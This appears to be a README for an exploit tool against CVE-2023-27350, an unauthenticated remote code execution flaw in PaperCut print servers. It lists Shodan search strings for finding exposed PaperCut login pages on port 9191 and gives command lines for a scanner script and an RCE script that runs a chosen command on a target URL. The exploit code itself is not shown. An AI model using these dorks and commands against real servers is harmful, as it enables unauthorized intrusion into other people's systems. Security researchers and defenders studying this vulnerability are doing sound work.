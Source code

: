 # PaperCut
CVE-2023-27350. PaperCut - Unauthenticated Remote Code Execution
## Shodan dork
    http.html:"papercut"
    http.html:"papercut" port:9191
    http.title:"PaperCut Login"  
## Usage <br/>
#### Check
    python3 scanner.py
    Enter IP:
#### RCE    
    python3 papercut_rce.py --url 'http://ip:9191' --command calc.exe
